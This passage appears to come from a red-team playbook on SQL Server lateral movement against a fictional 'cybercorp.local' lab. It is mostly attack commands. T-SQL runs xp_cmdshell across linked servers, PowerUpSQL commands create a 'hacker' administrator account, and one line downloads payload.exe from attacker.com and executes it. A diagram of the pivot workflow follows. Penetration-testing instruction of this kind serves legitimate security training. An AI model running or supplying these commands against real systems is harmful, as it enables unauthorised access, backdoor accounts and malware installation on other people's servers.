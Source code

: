 #### **2. Database Link Exploitation**
```sql
-- Enumerate linked servers
SELECT name, data_source, is_linked FROM sys.servers WHERE is_linked = 1

-- Test linked server access
SELECT @@VERSION FROM [LINK_NAME].[master].[sys].[servers]

-- Execute commands on linked server
EXEC [LINK_NAME].[master].[sys].[xp_cmdshell] 'whoami'

-- Query linked server databases
SELECT * FROM [LINK_NAME].[master].[sys].[databases]

-- Use linked server for lateral movement
EXEC [LINK_NAME].[master].[sys].[xp_cmdshell] 'net user /add hacker Password123!'
```

#### **3. PowerUpSQL Attack Commands**
```powershell
# Enable xp_cmdshell
Invoke-SQLOSCmd -Instance "SQL01.cybercorp.local" -Command "whoami" -Verbose

# Execute commands via xp_cmdshell
Invoke-SQLOSCmd -Instance "SQL01.cybercorp.local" -Command "net user hacker Password123! /add" -Verbose

# Add user to administrators group
Invoke-SQLOSCmd -Instance "SQL01.cybercorp.local" -Command "net localgroup administrators hacker /add" -Verbose

# Download and execute payload
Invoke-SQLOSCmd -Instance "SQL01.cybercorp.local" -Command "powershell -c \"Invoke-WebRequest -Uri http://attacker.com/payload.exe -OutFile C:\temp\payload.exe\"" -Verbose

# Execute downloaded payload
Invoke-SQLOSCmd -Instance "SQL01.cybercorp.local" -Command "C:\temp\payload.exe" -Verbose
```

### **SQL Server Lateral Movement Workflow**

```mermaid
sequenceDiagram
    participant RedTeam as 🔴 Red Team
    participant SQL1 as 💻 SQL01
    participant SQL2 as 💻 SQL02
    participant SQL3 as 💻 SQL03
    
    RedTeam->>SQL1: Connect to SQL01
    RedTeam->>SQL1: Enable xp_cmdshell
    SQL1-->>RedTeam: xp_cmdshell enabled
    
    RedTeam->>SQL1: Execute reconnaissance
    SQL1-->>RedTeam: System information
    
    RedTeam->>SQL1: Query database links
    SQL1-->>RedTeam: Link to SQL02
    
    RedTeam->>SQL1: Execute command on SQL02
    Note over RedTeam,SQL1: Via database link
    
    SQL1->>SQL2: Execute xp_cmdshell
    SQL2-->>SQL1: Command results
    SQL1-->>RedTeam: Results from SQL02
```